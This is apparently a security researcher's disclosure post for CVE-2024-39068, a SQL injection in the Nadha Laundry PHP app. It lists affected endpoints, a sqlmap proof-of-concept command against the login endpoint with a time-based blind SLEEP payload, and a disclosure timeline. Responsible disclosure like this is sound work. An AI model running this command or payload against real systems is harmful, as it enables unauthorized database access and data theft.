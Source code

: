 ```yaml
---
title: "SQL Injection at Nadha Laundry v3.2.1"
excerpt: "We found SQL Injection in Nadha Laundry v3.2.1, a Laundry Management App by NadhaMedia."
categories:
  - CVE
tags:
  - SQL Injection
toc: false
classes: wide
toc_label: "TOC"
toc_icon: "cogs"
toc_sticky: true
header:
  og_image: https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhPURFTrr7cNXgdYYHOLOGTqa_XM2gS-EZ-JiNujF2n7Eukd12I3_FYsFBtQmDzUuZRgNjlENL4SZQ53wolNcwAqOHxrbOX7u-g3DXt5Q042JV-yRxQcgk02xDtoppUEK3QZ4IlUtZzbWmgXLVPhIIfwl3dSfW_Geb4rHeCJBidRNYjpMF3eYA0pbjksisF/s888/
---
```


![Nadha Laundry](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhDHLg8NCGeQRf7mgiJ3qdtAfgj8bSOMYhRA5esWTb-nBun51AsIStg2SAA1c3ukuOZJlzXtfc7xvjCWqyW5MWHqwMh8o-go2OEj54KmZ9iZIq3M8iJrnpxla8cuUSy7hlcWCOd8YRfcMXNqV_7SL7QN9dgZcVvxJadWusnQMyX1L2mkMJqtApxQ6HbA_o/s930/nadha-laundry.png)

## Summary
During my vulnerability research on an open-source project, I discovered SQL Injection vulnerabilities at several endpoint in **Nadha Laundry**, a laundry management application using PHP & MYSQL developed by by NadhaMedia.

## Software Details

Detail about POS Nadha Resto.

| Parameter   | Value |
| ------------| ------------|
| Software | Nadha Laundry |
| Description | Laundry Management App based on **Uinsu Web Framework** |
| Developer | Aditia Darma Nasution, Hasnah Nur Ardita |
| Vendor URL | https://github.com/haxorsprogramming |
| Software URL | https://github.com/haxorsprogramming/Nadha-Laundry |

## SQL Injection at Several Endpoint

Vulnerability Summary:

| Parameter   | Value |
| ------------| ------------|
| CVE-ID | CVE-2024-39068 |
| Classification | SQL Injection |
| Description | SQL Injection vulnerabilities have been discovered in multiple parameters of Nadha Laundry, both in authenticated and unauthenticated states. |
| Required privilege | Low, Unauth |
| Affected Version | 3.2.0 (#0~612c17a) |
| Publicly disclosed | 13.06.2024 |

We have discovered SQL Injection vulnerabilities **in all endpoint** that interacts with the database. The following are examples of such endpoints:

- POST /Nadha-Laundry/login/prosesLogin
- POST /Nadha-Laundry/utility/getInfoPelanggan
- etc

> Note: All parameter on affected endpoint is vulnerable to SQL Injection.

This is an example PoC of how to exploit SQL Injection on a login page.

**sqlmap**
```bash
sqlmap -u http://localhost/Nadha-Laundry/login/prosesLogin --data="username=a&password=x" -p username --flush-session --batch --dbms=mysql
```

Response:

```bash
sqlmap identified the following injection point(s) with a total of 65 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=a' AND (SELECT 6511 FROM (SELECT(SLEEP(5)))OmZe) AND 'VqXT'='VqXT&password=x
```

![Nadha Laundry SQL Injection](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhrFQg9iYwAkcggpV5_RD42osY6WTOeXFXsn_jRarptkkAA1904DZXb3s1R-PBhyglSOYzcvS-acakqXV6taDbvsVvFi9_47y78j2FRo7L4nsUEP33H0hiNIl4JVQTgYZDHKKm7xiBCIyiAaOoXekgDl6O3dDh8rO92dxiPtboDgSTNK2wRIs0gt9uJrlA/s1150/sql%20injection.png)

## Timeline
- 10 June 2024 - Found the vulnerability
- 10 June 2024 - Contact the developer
- 14 June 2024 - Article published